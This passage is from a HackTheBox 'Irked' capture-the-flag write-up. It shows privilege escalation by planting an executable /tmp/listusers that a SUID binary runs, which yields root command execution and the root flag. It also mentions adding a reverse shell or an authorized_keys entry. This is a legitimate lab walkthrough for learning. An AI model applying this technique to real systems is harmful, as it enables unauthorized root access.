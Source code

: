 The next step was to make the missing file in the `/tmp` folder named `listusers`.

```none
djmardov@irked:/dev/shm$ touch /tmp/listusers
```

Tried to run it again, and got a permission denied error.

```none
djmardov@irked:/dev/shm$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-09-17 18:14 (:0)
djmardov pts/2        2021-09-17 19:30 (10.10.14.7)
sh: 1: /tmp/listusers: Permission denied
```

Gave the file execute permissions for all users, and tried running it again.

```none
djmardov@irked:/dev/shm$ chmod +x /tmp/listusers 
djmardov@irked:/dev/shm$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-09-17 18:14 (:0)
djmardov pts/2        2021-09-17 19:30 (10.10.14.7)
```

With the executable file available, the program runs without any error. The next logical step would be to add a command into the file, which will hopefully be executed when the other script calls it. Added the `id` command as a PoC.

```none
djmardov@irked:/dev/shm$ echo id > /tmp/listusers 
djmardov@irked:/dev/shm$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-09-17 18:14 (:0)
djmardov pts/2        2021-09-17 19:30 (10.10.14.7)
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```

Success! Code execution! At this point, I was feeling pretty lazy and just added `cat /root/root.txt` to the `viewuser` file to dump the root key. However, you could easily add a command to make a reverse shell back to the attacker's system, or craft an SSH `authorized_keys` file into the `root` user account.

Done!

## Lessons Learned

- Should learn more about SUID for privesc and do some research on how to spot odd binaries

## Useful Resources

- [HackTheBox - Irked by ippsec](https://www.youtube.com/watch?v=OGFTM_qvtVI)
- [HTB: Irked by 0xdf](https://0xdf.gitlab.io/2019/04/27/htb-irked.html)

